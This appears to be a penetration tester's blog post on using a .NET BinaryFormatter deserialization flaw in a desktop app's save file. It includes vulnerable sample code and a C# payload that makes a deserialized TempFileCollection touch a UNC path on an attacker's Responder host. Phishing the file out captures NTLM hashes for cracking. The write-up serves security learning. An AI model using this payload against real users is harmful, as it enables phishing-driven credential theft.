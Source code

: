 ```yaml
---
layout: post
title: .NET Deserialization to NTLM Hashes
tags: [.net, deserialization, vulnerability, ntlm, pentest]
---
```

During a recent penetration test, we came across a interesting technique we used to get admin credentials (well, NTLM hashes which were then cracked). There is nothing particularly new or novel about this attack, and it requires specific requirements to be useful, but we thought it was interesting enough to share. A blog post on a very similar technique was posted recently by Gianluca Baldi on the [mediaservice.net blog](https://techblog.mediaservice.net/2018/02/from-xml-external-entity-to-ntlm-domain-hashes/) and we found we were able to do something very similar but with a .net deserialization vulnerability rather than XXE.

This specific vulnerability is triggered when a user loads a malicious file, so user interaction is required, however a similar vulnerability could exist in applications accessible over the network. It all depends on where data is deserialized.

## Deserialization Basics
Deserialization is something that anyone that does a lot of thick application or web application security testing should be familiar with. Usually discussed in the context of Java, deserialization vulnerabilities are something that could be present in many applications, including .NET apps.

For those not so familiar with the idea, serialization is the process of translating objects into a format that can be stored or transmitted ([https://en.wikipedia.org/wiki/Serialization](https://en.wikipedia.org/wiki/Serialization)). Deserialization is the opposite; taking a stream of bytes and turning them into an object that can be used by the application. Why might this be useful? Often this can be for RPC where two applications (maybe on different hosts) can communicate. It's also fairly common when the state of an application needs to be saved. In this case the serialized data is written to disk and later restored.

We can see this in action with the example below.

```csharp
using System;
using System.IO;
using System.Runtime.Serialization.Formatters.Binary;

namespace serialisationTest1
{
    [Serializable]
    class MyClass
    {
        private int x = 1;
        private int y = 2;
        public string s = "Hello World";
        public MyClass() { Console.WriteLine("In Constructor"); }
        public void Method() { Console.WriteLine("Method()"); }
        public void Dispose()
        {
            Console.WriteLine("Disposing Object");
        }
    }
    class Program
    {
        static void Main(string[] args)
        {
            BinaryFormatter binaryFormatter = new BinaryFormatter();
            MyClass myClass = new MyClass();
            using (FileStream fileStream = File.OpenWrite("save"))
            {
                binaryFormatter.Serialize(fileStream, myClass);
            }
        }
    }
}
```

This creates a file, save, which we can view in a text editor.

![]({{ site.baseurl }}/assets/img/2018-04-22-net-deserialization-to-ntlm-hashes/1.png)

This can sometimes be exploited by an attacker when the application deserializes untrusted data. If we look at the deserialized object above, it should be obvious that whilst we cannot directly inject code into the application, we may be able to do something useful (i.e. malicious) if the object we're deserializing does something in it's constructor or in it's dispose method - a method that is called by the Garbage Collector when a .NET object is destroyed. This is because the object does actually get created and destroyed when a deserialization attempt is made, even if the object can't be used because it's the wrong type.

## The Vulnerability
During our test, we found that desktops had a .NET application installed. While we can't go into detail about the nature of the application, we can say it had a "save" feature. To save, the app took a specific object and serialized it to disk. It could then load this save by doing the opposite. It would take the saved object and deserialize it.

The vulnerable code is similar to below:

```csharp
using System;
using System.IO;
using System.Runtime.Serialization.Formatters.Binary;

namespace serialisationTest1
{
    class Program
    {
        static void Main(string[] args)
        {
            string saveFile = "save";
            MyClass myClass = null;
            BinaryFormatter binaryFormatter = new BinaryFormatter();
            FileStream fileStream = File.OpenRead(saveFile);
            try {
                Object o = binaryFormatter.Deserialize(fileStream);
                myClass = (MyClass)o;
                myClass.Method();
            }
            catch (Exception) { }
        }
    }
}
```

As stated before, in this specific case, we need to find an object that does something useful when it's created or destroyed.

`System.CodeDom.Compiler.TempFileCollection` is an object in .NET that deletes a file which has been added with it's `AddFile` method. This was proven by creating a file in a specific location (`d:\file1`), and using the serialized `TempFileCollection` as the application "save" file. The deserialzed object was created with the following code snippet:

```csharp
static void Main(string[] args)
{
    BinaryFormatter binaryFormatter = new BinaryFormatter();
    TempFileCollection tempFileCollection = new TempFileCollection();
    tempFileCollection.AddFile("d:\\test",false);
    using (FileStream fileStream = File.OpenWrite("save"))
    {
    binaryFormatter.Serialize(fileStream, tempFileCollection);
    }
}
```

When we loaded the save file, the application deserialized the object did indeed delete the test file. This is a nice proof of concept, but can we take it further?

## Getting Credentials
At this point, we have an application that has a deserialization vulnerability that gets triggered when a save file is opened and an object we can deserialize that deletes a file we can specify. Is it possible to go from this to something more useful? This step should be quite familiar to anyone with penetration testing experience.

Windows will attempt to authenticate with a server if a file is is read from a UNC path (i.e. `\\host\file`). If we change the file that is deleted to a UNC path on a server with Responder running, we'll be able to capture the NTLM handshake an attempt to crack the password.

The following .NET code generates our payload:

```csharp
static public void MakeObject()
{
    BinaryFormatter binaryFormatter = new BinaryFormatter();
    TempFileCollection tempFileCollection = new TempFileCollection();
    tempFileCollection.AddFile("\\\\<responderIP>\\test", false);
    using (FileStream fileStream = File.OpenWrite("save"))
    {
    binaryFormatter.Serialize(fileStream, tempFileCollection);
    }
}
```

We then ran Responder, sent the file to the user (via a phishing attack) and waited. Lo and behold, after a little while we had the hashes we could then use for cracking.

![]({{ site.baseurl }}/assets/img/2018-04-22-net-deserialization-to-ntlm-hashes/2.jpg)

With a good dictionary, a poor password policy and a bit of time, we were successful in cracking the password.
